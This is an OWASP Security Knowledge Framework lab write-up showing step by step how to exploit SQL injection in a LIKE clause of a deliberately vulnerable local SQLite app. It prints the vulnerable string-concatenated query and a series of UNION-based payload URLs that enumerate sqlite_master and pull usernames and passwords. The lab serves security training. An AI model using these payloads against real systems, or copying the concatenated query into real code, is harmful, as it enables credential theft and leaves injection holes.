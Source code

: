 # KBID 156 - SQLI \(Like\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-like
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/sqli-like-1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/sqli-like-2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/sqli-like-3.png)

```text
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/sqli-like-4.png)

```text
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/sqli-like-5.png)

```text
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](../../.gitbook/assets/sqli-like-6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/sqli-like-7.png)

```text
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/sqli-like-8.png)

```text
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/sqli-like-9.png)

```text
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
